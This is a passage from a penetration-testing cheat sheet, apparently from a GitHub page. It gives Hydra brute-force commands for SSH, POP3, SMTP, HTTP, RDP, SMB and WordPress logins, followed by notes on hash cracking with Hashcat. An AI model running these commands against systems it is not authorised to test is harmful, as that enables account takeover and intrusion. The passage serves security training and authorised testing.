     - Hydra SSH using a known password and a username list

        `hydra -v -V -u -L users.txt -p "<known password>" -t 1 -u $ip ssh`

    - Hydra SSH Against Known username on port 22

        `hydra $ip -s 22 ssh -l <user> -P big_wordlist.txt`

    - Hydra POP3 Brute Force

        `hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V`

    - Hydra SMTP Brute Force

        `hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V`

    - Hydra attack http get 401 login with a dictionary

        `hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin`

    - Hydra attack Windows Remote Desktop with rockyou

        `hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip`

    - Hydra brute force SMB user with rockyou:

        `hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt $ip smb`

    - Hydra brute force a Wordpress admin login

        `hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'`


## Password Hash Attacks

  - Online Password Cracking
      [*https://crackstation.net/*](https://crackstation.net/)
      [*http://finder.insidepro.com/*](http://finder.insidepro.com/)

  - Hashcat
  Needed to install new drivers to get my GPU Cracking to work on the Kali linux VM and I also had to use the --force parameter.

    `apt-get install libhwloc-dev ocl-icd-dev ocl-icd-opencl-dev`

    and

    `apt-get install pocl-opencl-icd`

### Cracking Linux Hashes - /etc/shadow file

  ```
  500 | md5crypt $1$, MD5(Unix)                          | Operating-Systems
  3200 | bcrypt $2*$, Blowfish(Unix)                      | Operating-Systems
  7400 | sha256crypt $5$, SHA256(Unix)                    | Operating-Systems
  1800 | sha512crypt $6$, SHA512(Unix)                    | Operating-Systems
  ```
###  Cracking Windows Hashes
